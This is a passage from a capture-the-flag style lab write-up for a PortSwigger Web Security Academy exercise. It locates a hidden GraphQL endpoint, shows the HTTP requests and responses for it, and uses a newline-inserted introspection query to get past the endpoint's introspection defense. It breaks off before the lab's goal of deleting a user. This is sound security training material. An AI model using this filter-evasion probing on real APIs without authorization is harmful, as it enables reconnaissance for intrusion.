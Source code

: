 # Lab: Finding a hidden GraphQL endpoint

### Objective
```
The user management functions for this lab are powered by a hidden GraphQL endpoint. You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.

To solve the lab, find the hidden endpoint and delete `carlos`.
```

1. Because the end point would not be discover-able by conventional means, (cruising the app),
I decided to run an active scan to see if that could discover an api endpoint it up, and it did.
**Request**
```HTTP
GET /api?query=query%7b__typename%7d HTTP/2
Host: 0a7500a5048f1d4881dc76a500e100e4.web-security-academy.net
Cookie: session=GK55sNu9PbFaURJWf1TqFc6bf1znx72m
```

**Response**
```HTTP
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=CURbdf77YeLW6ItMRlsFyYaPT20EQJeU; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 45

{
  "data": {
    "__typename": "query"
  }
}
```

2. **Sent it to Repeater**
and and copy-pasted the request query to the decoder:
```HTTP
GET /api?query=query%7b__schema%0a+%7bqueryType%7bname%7d%7d%7d
```

the decoded query:
```HTTP
/api?query=query{__schema {queryType{name}}}
```

OK, cool, let's send the request in repeater:
**Request**
```HTTP
GET /api?query=query%7b__schema%0a+%7bqueryType%7bname%7d%7d%7d HTTP/2
Host: 0a7500a5048f1d4881dc76a500e100e4.web-security-academy.net
Cookie: session=GK55sNu9PbFaURJWf1TqFc6bf1znx72m
```
